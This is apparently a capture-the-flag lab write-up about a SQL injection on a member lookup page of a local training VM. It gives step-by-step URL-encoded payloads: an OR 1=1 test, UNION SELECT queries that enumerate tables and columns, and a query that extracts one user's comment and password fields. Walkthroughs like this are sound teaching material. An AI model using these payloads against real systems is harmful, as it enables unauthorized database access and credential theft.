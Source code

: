 # SQL Injection

url: http://192.168.56.110/?page=member

This URL connects to the MySQL database to list information about members and is vulnerable to SQL injections.

Exploitation in a few steps:

1. List all members with OR 1=1

```
http://192.168.56.110/?page=member&id=1%20OR%201=1&Submit=Submit#
```

We notice that one user has the name "Get The" and "Flag". We assume the flag is hidden in some properties of the user not displayed in this search.

2. Enumerate the database tables

We used a union select attack in order to list more information about the database and write it instead of the user' first name.

```
http://192.168.56.110/?page=member&id=1%20and%201=2%20union%20select%20group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema%20=%20database()%20--%20-&Submit=Submit#
```

![Result of the union select attack to list the tables from the database](./Resource/enumerate_tables.png)

3. Enumerate the users' columns

```
http://192.168.56.110/?page=member&id=1%20%20union%20select%201,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%20database()%20--%20-&Submit=Submit#
```
![Result of the union select attack to list the columns from the users table](./Resource/enumerate_columns.png)

We now know the id of user "Get the Flag" and can narrow the injection to only display this user's information


4. List the other fields of the Get The Flag user

```
http://192.168.56.110/?page=member&id=1%20and%201=2%20union%20select%20group_concat(Commentaire,countersign),2%20from%20users%20where%20user_id=5--%20-&Submit=Submit#
```

![Commentary field from Get The Flag](./Resource/GetTheFlag.png)


Then we just have to do what the commentary ask and we have the flag.

Source: https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635
